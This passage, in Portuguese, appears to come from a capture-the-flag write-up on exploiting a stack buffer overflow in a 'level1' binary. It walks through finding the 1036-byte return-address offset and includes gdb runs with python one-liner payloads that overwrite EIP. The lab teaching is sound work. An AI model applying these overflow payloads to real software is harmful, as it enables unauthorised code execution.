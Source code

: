 Primeiro, para sobreescrever o endereço de retorno e mandar para EIP coisa mais útil que 4 B's, é necessário saber exatamente qual a posição dos B's que passaram por cima dele, afinal, como colocariamos o endereço que queremos em EIP se não soubermos onde pôr esse endereço?

Há variadas formas de descobrir a posição. Muitos usariam o pattern_create do metasploit ou coisa parecida. Mas no momento que resolvi o chall não havia metasploit disponível. Então fiz "na mão" mesmo.

Lembra que no começo do writeup falei que acreditava que as primeiras linhas do asm que o objdump nos mostrou era referente a formação do stackframe? E também que acreditava que a última linha do trecho de código que destaquei criava certo espaço nesse frame? A linha a qual me refiro é esta aqui:

```
8048422: 81 ec 10 04 00 00 sub $0x410,%esp
```

Então, se o tamanho reservado seria de 1040 bytes (decimal de 410 em hex), mandar até 1035 B's faria o programa finalizar normalmente, já que o endereço de retorno ficaria salvo de ser corrompido. Você também pode fazer o teste:

```
(gdb) run $(python -c 'print B*1035')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /levels/level1 $(python -c 'print B*1035')
[Inferior 1 (process 27709) exited normally]
```

Ok, aqui pode surgir uma dúvida. Eu mesmo tive que recorrer ao google. Se o endereço de retorno, o que vai cair em EIP, tem 4 bytes de tamanho, 4 B's, porque mandar como argumento 1036 B's, traz o seguinte resultado?

```
(gdb) run $(python -c 'print B*1036')
Starting program: /levels/level1 $(python -c 'print B*1036')

Program received signal SIGSEGV, Segmentation fault.
0xb7ea1e00 in __libc_start_main () from /lib/i386-linux-gnu/libc.so.6
```

Simples. Toda string tem um null terminator (\0) no seu fim.

É assim que strcpy e outras funções sabem que podem ignorar qualquer coisa que vier na memória após um 00. Quando passamos 1036 B's, estamos passando também um 00, que vai corromper nosso endereço de retorno e pode ser visto ali no fim de EIP (0xb7ea1e 00). Logo você também deve imaginar porque 1035 B's funciona sem problema.

Então, sem precisar do create_pattern e similares, apenas com a analíse do programa, conseguimos descobrir exatamente onde pôr o endereço que desejamos.

Basta mandar 1036 B's + Endereço de retorno.

```
(gdb) run $(python -c 'print B*1036 + R*4')
Starting program: /levels/level1 $(python -c 'print B*1036 + R*4')

Program received signal SIGSEGV, Segmentation fault.
0x52525252 in ?? ()
```
